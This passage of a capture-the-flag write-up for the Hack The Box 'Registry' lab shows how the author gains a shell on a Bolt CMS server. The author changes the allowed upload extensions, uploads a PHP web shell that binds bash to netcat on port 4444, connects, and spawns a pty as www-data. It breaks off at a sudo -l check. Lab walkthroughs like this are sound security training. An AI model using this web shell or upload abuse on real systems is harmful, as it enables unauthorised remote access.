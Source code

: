         <title>Redirecting to /bolt/bolt/login</title>
    </head>
    <body>
        Redirecting to <a href="/bolt/bolt/login">/bolt/bolt/login</a>.
    </body>
* Connection #0 to host registry.htb left intact
</html>
kali@back0ff:~/Documents/HTB-Labs/Registry$
```

My guess was right so let's access the CMS through the browser.

![Registry_BoltLogin](/images/Registry_BoltLogin.png)

![Registry_BoltLoggedIn](/images/Registry_BoltLoggedIn.png)


While looking briefly in the CMS, I noticed File Management is up. After doing some check-ups we notice php files cannot be uploaded, and anything we upload normally goes away (gets deleted) very quickly, but if we upload any files as templates, they stay in perfectly.

![Registry_BoltThemes](/images/Registry_BoltThemes.png)

One place to check is the configuration (Main Configuration), we can find that the file extensions to upload can be modified (**line 240**), so we can add php and in a different tab

![Registry_BoltConfig](/images/Registry_BoltConfig.png)

We can then refresh (Ctrl+F5) twice and upload a simple shell by opening a port we can bind to, and in another tab access this shell.

The sample shell to use is:

```
rce2.php:
<?php
    system("nc.traditional -lvp 4444 -e /bin/bash")
?>
```

**NOTE:** From testing, it's worth noting that outbound communication is restricted. Let's keep this in mind.

After adding the php file extension to in the main configuration, as explained above, and uploading the rce2.php file as a theme to then load it in the browser, let's quickly run netcat to registry.htb on port TCP4444 in a **NEW** terminal windows and try to connect.

When connecting:

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ nc -v registry.htb 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.10.159:4444.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/html/bolt/theme
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bolt:~/html/bolt/theme$ 
```

Let's proceed run *sudo -l* to check on what we can run as *sudo*:

```
www-data@bolt:~/html/bolt/theme$ sudo -l